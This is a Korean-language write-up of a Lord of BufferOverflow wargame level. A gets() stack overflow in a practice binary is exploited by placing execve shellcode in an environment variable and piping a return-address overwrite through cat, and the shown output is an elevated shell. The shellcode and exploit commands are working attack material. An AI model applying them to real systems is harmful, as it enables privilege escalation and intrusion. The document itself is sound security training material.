 ```yaml
---
title: "LOB small buffer + stdin Write-Up"
tags: [lob]
categories: [System]
---
```


# Index

1. [문제 분석](#문제-분석)
2. [GDB 분석](#gdb-분석)
3. [Exploit](#exploit)

* * *

## 문제 분석

문제에 접속하면 실행 파일과 소스코드 파일을 확인할 수 있습니다. 문제의 제목은 "**small buffer + stdin**" 이었습니다.

제목으로부터 예상할 수 있는 변화는 기존의 small buffer 문제에서 입력받는 방식이 argument를 이용하는 것이 아닌 stdin(gets, read, scanf 등) 함수 사용을 추정할 수 있었습니다.

프로그램의 동작을 테스트한 결과 argument가 없어도 정상적으로 동작되며 입력 대기 상태가 되는 것을 확인할 수 있었습니다. 이 상태에서 입력을 할 경우 해당 내용이 readback 되었습니다.

```
[cobolt@localhost cobolt]$ ./goblin 
TEST
TEST
```

stdin 함수를 사용할 경우 이전과 같은 방식으로 바로 payload를 넘기는 것이 불가능 하기 때문에 다른 방법을 사용해야 합니다.

## GDB 분석

GDB를 통해 확인하였을 때 입력은 `gets()` 함수를 사용하는 것을 확인할 수 있었습니다. Buffer의 크기는 이전과 동일하게 16 Byte 임도 확인할 수 있었습니다.

```
(gdb) disassemble main 
Dump of assembler code for function main:
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %ebp,%esp
0x80483fb <main+3>:	sub    %esp,16
0x80483fe <main+6>:	lea    %eax,[%ebp-16]
0x8048401 <main+9>:	push   %eax
0x8048402 <main+10>:	call   0x804830c <gets>
0x8048407 <main+15>:	add    %esp,4
0x804840a <main+18>:	lea    %eax,[%ebp-16]
0x804840d <main+21>:	push   %eax
0x804840e <main+22>:	push   0x8048470
0x8048413 <main+27>:	call   0x804833c <printf>
0x8048418 <main+32>:	add    %esp,8
0x804841b <main+35>:	leave  
0x804841c <main+36>:	ret
```

## Exploit

Shellcode는 Enviornment variable에 저장하여 RET 주소를 변조하는 형식으로 진행하였습니다.

```
[cobolt@localhost l3]$ export EGG=`python -c 'print("\x90"*30+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")'`
```

stdin 환경에서 payload를 전달하기 위한 방법으로는 대표적으로 `cat` 명령이 있습니다. 이를 이용하여 payload를 작성하면 다음과 같이 shell을 획득할 수 있습니다.

```
[cobolt@localhost cobolt]$ (python -c 'print("\x90"*20+"\x6f\xfe\xff\xbf")'; cat; ) | ./goblin 
oþÿ¿
id     
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```
